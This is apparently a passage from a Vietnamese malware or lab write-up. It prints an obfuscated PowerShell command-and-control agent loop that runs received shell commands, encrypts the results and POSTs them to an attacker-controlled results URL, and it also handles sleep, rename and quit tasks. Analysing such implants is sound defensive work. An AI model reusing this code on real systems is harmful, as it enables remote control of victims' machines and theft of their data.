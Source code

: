 ```powershell
                ${yO8XM5}  = "/c "
            
                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a}}
                ${KcNJCQdL}  = shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq ''){
            
                ${f}    = '.exe'
                ${yO8Xm5}  = "/c "
            
                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a}}
                ${kcNjcqdL}  = shell ${F} ${yO8XM5}
                ${kcnjCQDL}  = Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){
                
                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kVQbXbUr}    = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    sleep ${N}
    }
}
```
Đoạn mã khá dài, nên mình sẽ chú thích vào ảnh cho dễ hình dung

![2](https://github.com/user-attachments/assets/aef68203-b623-48d2-b970-df98d2461ed5)
